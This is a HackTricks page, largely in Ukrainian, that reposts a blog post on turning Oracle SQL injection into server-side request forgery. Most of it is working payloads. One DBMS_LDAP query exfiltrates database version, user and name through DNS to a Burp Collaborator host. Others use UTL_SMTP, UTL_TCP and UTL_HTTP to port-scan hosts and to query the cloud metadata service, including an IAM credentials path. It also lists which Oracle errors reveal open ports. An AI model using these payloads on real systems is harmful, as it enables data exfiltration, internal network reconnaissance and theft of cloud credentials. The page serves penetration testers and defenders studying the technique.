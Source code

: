 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Serve this post a wayback machine copy of the deleted post from [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Використання Oracle для виконання Out of Band HTTP та DNS запитів добре задокументовано, але як засіб ексфільтрації SQL даних в ін'єкціях. Ми завжди можемо модифікувати ці техніки/функції для виконання інших SSRF/XSPA.

Встановлення Oracle може бути дійсно болісним, особливо якщо ви хочете налаштувати швидкий екземпляр для випробування команд. Мій друг і колега з [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), вказав мені на [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c), що дозволило мені налаштувати екземпляр на t2.large AWS Ubuntu машині та Docker.

Я запустив команду docker з прапором `--network="host"`, щоб я міг імітувати Oracle як рідну установку з повним доступом до мережі, протягом цього блогу.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle пакети, які підтримують специфікацію URL або Ім'я хоста/Номер порту <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Щоб знайти будь-які пакети та функції, які підтримують специфікацію хоста та порту, я провів пошук в Google на [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Конкретно,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Результати пошуку повернули наступні результати (не всі можуть бути використані для виконання вихідної мережі)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Цей грубий пошук, очевидно, пропускає пакети, такі як `DBMS_LDAP` (який дозволяє передавати ім'я хоста та номер порту), оскільки [сторінка документації](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) просто вказує вам на [інше місце](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Отже, можуть бути й інші пакети Oracle, які можна зловживати для виконання вихідних запитів, які я міг пропустити.

У будь-якому випадку, давайте розглянемо деякі з пакетів, які ми виявили та перерахували вище.

**DBMS\_LDAP.INIT**

Пакет `DBMS_LDAP` дозволяє отримувати доступ до даних з LDAP серверів. Функція `init()` ініціалізує сесію з LDAP сервером і приймає ім'я хоста та номер порту як аргумент.

Цю функцію раніше документували, щоб показати ексфільтрацію даних через DNS, як нижче
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Однак, враховуючи, що функція приймає ім'я хоста та номер порту як аргументи, ви можете використовувати це, щоб працювати як сканер портів.

Ось кілька прикладів
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` вказує на те, що порт закритий, тоді як значення сесії вказує на те, що порт відкритий.

**UTL\_SMTP**

Пакет `UTL_SMTP` призначений для надсилання електронних листів через SMTP. Приклад, наведений на [сайті документації Oracle, показує, як ви можете використовувати цей пакет для надсилання електронного листа](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Для нас, однак, цікавою є можливість вказати хост і специфікацію порту.

Нижче наведено грубий приклад з функцією `UTL_SMTP.OPEN_CONNECTION`, з тайм-аутом 2 секунди.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` показує, що порт відкритий, але жодне SMTP з'єднання не було встановлено, тоді як `ORA-29278: SMTP transient error: 421 Service not available` показує, що порт закритий.

**UTL\_TCP**

Пакет `UTL_TCP` та його процедури і функції дозволяють [TCP/IP на основі зв'язку з сервісами](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Якщо він запрограмований для конкретного сервісу, цей пакет може легко стати шляхом у мережу або виконати повні запити на стороні сервера, оскільки всі аспекти TCP/IP з'єднання можуть бути контрольовані.

Приклад [на сайті документації Oracle показує, як ви можете використовувати цей пакет для створення сирого TCP з'єднання для отримання веб-сторінки](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Ми можемо трохи спростити це і використовувати його для виконання запитів до екземпляра метаданих, наприклад, або до довільного TCP/IP сервісу.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Цікаво, що завдяки можливості створювати сирі TCP запити, цей пакет також можна використовувати для запитів до служби метаданих екземпляра всіх постачальників хмарних послуг, оскільки тип методу та додаткові заголовки можуть бути передані в межах TCP запиту.

**UTL\_HTTP та веб-запити**

Мабуть, найпоширеніша та найдокументованіша техніка в кожному навчальному посібнику з Out of Band Oracle SQL Injection - це [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Цей пакет визначається документацією як - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Ви також можете використовувати це для виконання деякого елементарного сканування портів за допомогою запитів, таких як
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` або `TNS:operation timed out` є ознакою того, що TCP порт закритий, тоді як `ORA-29263: HTTP protocol error` або дані є ознакою того, що порт відкритий.

Інший пакет, який я використовував у минулому з різним успіхом, це [`GETCLOB()` метод абстрактного типу `HTTPURITYPE` Oracle](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705), який дозволяє взаємодіяти з URL і надає підтримку для HTTP протоколу. Метод `GETCLOB()` використовується для отримання GET відповіді з URL як [CLOB типу даних.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
